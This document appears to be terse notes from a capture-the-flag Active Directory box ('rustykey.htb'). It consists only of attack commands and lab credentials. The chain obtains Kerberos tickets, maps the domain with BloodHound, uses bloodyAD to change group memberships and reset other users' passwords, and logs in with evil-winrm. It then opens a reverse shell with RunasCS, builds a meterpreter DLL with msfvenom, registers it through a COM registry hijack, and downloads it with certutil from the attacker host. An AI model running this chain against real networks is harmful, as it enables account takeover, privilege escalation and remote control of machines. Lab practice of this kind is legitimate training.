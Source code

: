 rr.parker / 8#t5HE8L!W3A

timedatectl set-ntp off             
ntpdate rustykey.htb 
impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'  

nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k 

bloodhound-python -u 'rr.parker' -d rustykey.htb -c all -v -ns 10.10.11.75

IT-COMPUTER3$ : Rusty88!
 
timedatectl set-ntp off             
ntpdate rustykey.htb 
impacket-getTGT rustykey.htb/'IT-COMPUTER3$':'Rusty88!'



bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'

bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'BA_ga6312'  

bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'

timedatectl set-ntp off             
ntpdate rustykey.htb 
impacket-getTGT rustykey.htb/'bb.morgan':'BA_ga6312'


bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB' 'SUPPORT'

bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'BA_ga6312' 

evil-winrm -i dc.rustykey.htb -u 'ee.reed' -r rustykey.htb 



.\RunasCS.exe ee.reed Abc123456@ powershell.exe -r 10.10.14.152:4444



msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.152 LPORT=4444 -f dll -o hack.dll


reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\temp\hack.dll" /f


certutil.exe -urlcache -f http://10.10.14.152/hack.dll hack.dll ;